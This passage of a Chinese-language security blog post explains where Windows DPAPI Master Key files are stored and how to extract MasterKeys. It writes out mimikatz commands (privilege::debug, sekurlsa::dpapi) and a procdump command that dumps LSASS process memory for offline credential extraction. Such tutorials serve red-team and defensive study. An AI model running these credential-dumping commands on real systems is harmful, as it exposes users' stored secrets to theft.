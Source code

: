 分为两种：

- 用户Master Key file，位于%APPDATA%\Microsoft\Protect\%SID%
- 系统Master Key file，位于%WINDIR%\System32\Microsoft\Protect\S-1-5-18\User


#### Preferred文件：

位于Master Key file的同级目录，显示当前系统正在使用的MasterKey及其过期时间，默认90天有效期


## 0x03 获得MasterKey的方法
---

本节主要介绍通过mimikatz获得MasterKey的方法

### 1、在线获取

通过读取Lsass进程信息，获取当前系统中的MasterKey，能获得多个Master Key file对应的MasterKey

管理员权限：

```
privilege::debug
sekurlsa::dpapi
```

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-2-17/2-1.png)

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-2-17/2-2.png)


### 2、离线读取


#### 思路一：

使用procdump dump出LSASS进程内存

管理员权限：

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

使用mimikatz加载dmp文件并获取各个Master Key file对应的MasterKey：

```
sekurlsa::minidump lsass.dmp
sekurlsa::dpapi
```

#### 思路二：

参考资料：

https://github.com/gentilkiwi/mimikatz/wiki/howto-~-scheduled-tasks-credentials
